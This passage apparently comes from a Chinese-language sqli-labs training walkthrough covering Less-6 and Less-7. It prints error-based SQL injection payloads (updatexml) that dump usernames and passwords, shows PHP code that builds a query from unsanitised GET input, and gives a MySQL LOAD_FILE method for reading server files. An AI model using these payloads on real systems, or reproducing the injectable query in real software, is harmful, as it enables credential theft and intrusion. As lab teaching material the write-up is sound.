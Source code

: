 与 Less-5 思路一致，就是闭合 sql 语句时换成 " 即可

```
?id=1" and updatexml(1,concat(0x5e,(substr((select group_concat(username,0x7e,password) from users),1)),0x5e),1) --+
```

```
?id=1" and (updatexml(1,concat(0x7e,(select group_concat(password) from security.users),0x7e),1)) --+
```

## Less-7

https://blog.csdn.net/qq_53079406/article/details/125044475?spm=1001.2014.3001.5501

导出文件GET字符型注入，部分题目源码

```
$id=$_GET['id'];

$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

闭合 sql 时用 ')) 即可

<img src="图片\Snipaste_2023-01-22_10-53-44.png" alt="Snipaste_2023-01-22_10-53-44" style="zoom:67%;" />

mysql读文件方法，先建一个表，把文件写入表中，再查询这个表

详情 https://www.cnblogs.com/c1e4r/articles/8618692.html

```
CREATE TABLE USER(cmd TEXT);
INSERT INTO USER(cmd) VALUES (LOAD_FILE('D:\\phpstudy\\WWW\\sqli-labs\\Less-7\\result.txt'));
SELECT * FROM USER;
```
